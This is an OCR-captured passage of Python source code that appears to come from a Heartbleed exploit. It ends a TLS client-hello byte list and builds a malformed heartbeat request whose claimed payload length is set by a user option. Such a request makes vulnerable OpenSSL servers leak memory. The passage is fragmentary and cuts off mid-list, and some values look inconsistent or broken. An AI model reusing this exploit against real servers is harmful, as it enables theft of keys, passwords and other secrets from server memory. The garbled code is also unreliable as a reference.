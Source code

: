 0x00, 0x0f, 0x00, 0x01, 0x01

    ]

    return client_hello

    

def build_heartbeat(tls_ver):

    heartbeat = [

0x18,       # Content Type (Heartbeat)

0x03, tls_ver,  # TLS version

0x00, 0x29,  # Length

# Payload

0x01,       # Type (Request)

opts.len/256, opts.len%256,  # Payload length

0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41,

0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41,

0x41, 0x41, 0x41, 0x41, 0x41, 0x42, 0x43, 0x44,

0x45, 0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C,

0x4D, 0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44, 0x45,

0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D,

0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44,

0x45, 0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C,

0x4D, 0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44, 0x45,

0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D,

0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44,

0x45, 0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C,

0x4D, 0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44, 0x45,

0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D,

0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44,

0x45, 0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C,

0x4D, 0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44, 0x45,

0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D,

0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44,

0x45, 0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C,
